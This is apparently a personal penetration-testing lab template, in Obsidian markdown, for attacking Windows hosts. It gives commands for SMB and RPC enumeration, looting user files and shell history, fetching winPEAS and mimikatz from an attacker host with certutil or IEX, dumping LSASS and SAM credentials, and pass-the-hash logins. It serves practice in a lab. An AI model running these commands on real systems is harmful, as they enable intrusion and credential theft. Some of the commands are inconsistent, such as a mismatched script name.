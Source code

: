 #show #windows
<%*
const path = tp.file.folder(true).split('/');
const filename = "0_" + path[path.length - 1];
await tp.file.rename(filename);
tR += "Part of " + "[" + "[" + "0_Lab_" + path[path.length - 2] + "]]";
-%>

First flag: ☑️
Second flag: ✅

# Enumeration
##### MSRPC (135, 593)
```bash
impacket-rpcdump $hip | grep '12345778-1234-abcd-ef00-0123456789ab\|3919286a-b10c-11d0-9ba8-00c04fd92ef5\|12345778-1234-abcd-ef00-0123456789ac\|1ff70682-0a51-30e8-076d-740be8cee98b\|338cd001-2244-31f1-aaaa-900038001003\|367abb81-9844-35f1-ad32-98f038001003\|4b324fc8-1670-01d3-1278-5a47bf6ee188\|4d9f4ab8-7d1c-11cf-861e-0020af6e7c57'
```

##### SMB (139, 445) #login
```bash
i=$hip; enum4linux -a $i ; enum4linux-ng -A $i ; crackmapexec smb $i 2>/dev/null
```
If used with proxy, use `proxychains -q`. Provide creds with `-u "<username>" -p "<passwd>"` 
Username can be `$(find . -name "9*.md" -print | cut -d "/" -f2 | cut -d "." -f1 | cut -d "_" -f2 | cut -d " " -f 1)`
Alternativ: [grab_smbversion.sh](file:////home/kali/Documents/activeInformationGathering/)
# Initial Foothold

### Software Versions

	 `searchsploit` and Google Dorks

### Insecure configurations
> Use the service template to document possible attack vectors and document here which worked
> NSE scripts: `ls /usr/share/nmap/scripts`
> Run the following for all services: `nmap --script "safe and smb-*" $hip`. If nothing helps, try `nmap --script "smb-vuln-*" $hip`


# Loot

Hostname `hostname`
	

Flag `type C:\Users\Administrator\Desktop\proof.txt` or local.txt for non-elevated
	
##### Users
```powershell
Get-LocalUser
```
Alternative: `net user`
##### Network
```powershell
ipconfig /all; route print; netstat -ano; netsh advfirewall show currentprofile, netsh advfirewall firewall show rule name=all
```

##### Interesting files
```powershell
Get-ChildItem -Recurse -Path C:\Users\ -File -Exclude Desktop.lnk,Downloads.lnk,Bing.url | select Name,Directory; Get-ChildItem -Path C:\Users\ -Include *.kdbx,*.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue; Get-History; type (Get-PSReadlineOption).HistorySavePath
```

##### Advanced
Mounted Volumes: `mountvol`
Devices: `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer`
Drivers: `driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object "Display Name", "Start Mode", "Path"`
Shadow Copy: `vssadmin list shadows`, `mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\`
# PrivEsc
##### Find Working Dir for attack, if not \\Users\\Public
```powershell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```
	
##### WinPEAS
```powershell
cd \Users\Public ; certutil.exe -urlcache -split -f "http://192.168.45.189:8181/winPEASx64.exe" ; winPEASx64.exe
```
Alternative (not tested yet):
```bash
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1'); ./linpeash.ps1 -a -r | tee linpeas.txt
```
Read it with color-highlighting using `less -r linpeas.txt`

> I still have to run WinPEAS once and check what additional commands I need to integrate from [[2_loot-privEsc_Windows_Manually]]

##### Windows Exploit Suggester - Next Generation
On target, execute `systeminfo > systeminfo.txt` and transfer file. On kali, do
```bash
wes --muc-lookup systeminfo.txt
```

Consider [[3_dllHijacking_guide]]

Ways to login as another user:
- `impacket-psexec '$user:$password@$hip'` oder `impacket-psexec -hashes 00000000000000000000000000000000:$ntlm_hash '$user@$hip'`
- If we have access to the GUI -> `RunAs /user:$user cmd`
- User is in group _Remote Desktop Users_ -> RDP
- User is in group _Remote Management Users_ -> WinRM (Better use [evil-winrm](https://github.com/Hackplayers/evil-winrm) from non-interactive shells)
- User has _Log on as a batch job_ right -> Schedule task to execute a program of our choice as this user
- User has active session -> Use PsExec (SysInternals)

# Loot passwords
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.IP:8000/mimikatz.exe" ; .\mimikatz.exe privilege::debug sekurlsa::logonpasswords lsadump::sam exit
```